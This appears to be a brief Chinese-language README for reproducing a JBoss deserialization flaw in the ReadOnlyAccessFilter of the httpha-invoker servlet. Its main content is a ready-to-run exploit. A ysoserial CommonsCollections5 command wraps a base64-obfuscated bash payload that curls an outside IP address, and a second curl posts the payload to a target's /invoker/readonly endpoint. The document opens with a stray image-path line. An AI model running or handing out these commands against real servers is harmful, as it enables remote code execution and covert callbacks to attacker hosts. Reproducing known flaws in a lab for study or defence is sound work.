

# README

`jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet`下面的`ReadOnlyAccessFilter`这个过滤器：



没有过滤就直接进行了反序列化，因此可以实现反序列化攻击。


```shell
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,Y3VybCBodHRwOi8vMTIxLjUuMTY5LjIyMzozOTg3Ng==}|{base64,-d}|{bash,-i}" > poc.ser

curl http://121.5.169.223:8080/invoker/readonly --data-binary @poc.ser
```

